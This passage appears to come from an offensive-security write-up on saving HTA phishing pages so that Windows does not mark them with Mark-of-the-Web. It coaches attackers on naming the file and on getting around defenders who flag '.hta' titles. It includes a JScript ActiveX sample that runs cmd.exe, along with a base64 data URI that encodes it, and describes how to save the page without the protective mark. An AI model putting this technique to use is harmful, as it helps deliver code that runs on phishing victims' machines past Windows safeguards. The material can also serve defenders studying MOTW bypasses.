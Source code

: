 A good strategy might be to set the title to something like `_.hta`, which prompts the user to modify the underscore and replace it with an appropriate name.

If defenders start flagging the website just because the title ends with ".hta", you can get rid of the the `<title>` element completely, rename the HTML phishing file to have a `.hta` file extension and send a `Content-Type` header with `text/html`. Saving the page will then set the default "Save as" name to the file name.

# Data URIs

Another point worth mentioning is that Data URIs that have a `text/html` MIME type will also save without MOTW. For example, if we have the following content:

```
This file will save without MOTW.
<script language="JScript">
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("cmd.exe /c ping example.com");
</script>
```

And we Base64 encode it and use it in our Data URI:

```
data:text/html;base64,VGhpcyBmaWxlIHdpbGwgc2F2ZSB3aXRob3V0IE1PVFcuCjxzY3JpcHQgbGFuZ3VhZ2U9IkpTY3JpcHQiPgogICAgdmFyIHNoZWxsID0gbmV3IEFjdGl2ZVhPYmplY3QoIldTY3JpcHQuU2hlbGwiKTsKICAgIHNoZWxsLlJ1bigiY21kLmV4ZSAvYyBwaW5nIGV4YW1wbGUuY29tIik7Cjwvc2NyaXB0Pg==
```

![DataURI](./datauri.png)

Press `Ctrl+S` on the page and save the file as "Webpage Complete". The file should be saved without MOTW.
